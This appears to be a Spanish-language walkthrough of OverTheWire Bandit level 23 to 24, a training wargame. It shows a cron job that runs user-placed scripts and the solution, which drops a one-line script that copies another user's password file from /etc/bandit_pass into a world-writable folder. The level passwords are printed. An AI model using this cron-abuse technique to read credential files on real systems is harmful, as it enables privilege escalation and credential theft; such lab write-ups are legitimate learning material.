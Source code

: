 ## Objetivo 
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos de acceso al nivel 
bandit23
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga

## Solución  
```bash
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
bandit23@bandit:~$ mktemp -d
/tmp/tmp.qQMoorbJYz
bandit23@bandit:~$ chmod 777 /tmp/tmp.qQMoorbJYz
bandit23@bandit:~$ mktemp -d
/tmp/tmp.qQMoorbJYz
bandit23@bandit:~$ chmod 777 /tmp/tmp.qQMoorbJYz
bandit23@bandit:~$ cd /tmp/tmp.qQMoorbJYz
bandit23@bandit:/tmp/tmp.qQMoorbJYz$ echo "cat /etc/bandit_pass/bandit24 > /tmp/tmp.qQMoorbJYz/password" > script.sh
bandit23@bandit:/tmp/tmp.qQMoorbJYz$ ls
script.sh
bandit23@bandit:/tmp/tmp.qQMoorbJYz$ cat script.sh
cat /etc/bandit_pass/bandit24 > /tmp/tmp.qQMoorbJYz/password
bandit23@bandit:/tmp/tmp.qQMoorbJYz$ chmod 777 script.sh
bandit23@bandit:/tmp/tmp.qQMoorbJYz$ touch password
bandit23@bandit:/tmp/tmp.qQMoorbJYz$ chmod 777 password
bandit23@bandit:/tmp/tmp.qQMoorbJYz$ ls -la
total 10816
drwxrwxrwx    2 bandit23 bandit23     4096 Sep  4 16:36 .
drwxrwx-wt 4028 root     root     11063296 Sep  4 16:36 ..
-rwxrwxrwx    1 bandit23 bandit23        0 Sep  4 16:36 password
-rwxrwxrwx    1 bandit23 bandit23       61 Sep  4 16:34 script.sh
bandit23@bandit:/tmp/tmp.qQMoorbJYz$
bandit23@bandit:/tmp/tmp.qQMoorbJYz$ cp script.sh /var/spool/bandit24/foo
cat password
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

```

## Notas Adicionales 
mktemp -d crea una carpeta temporal dentro tmp con un nombre random.

### Referencias

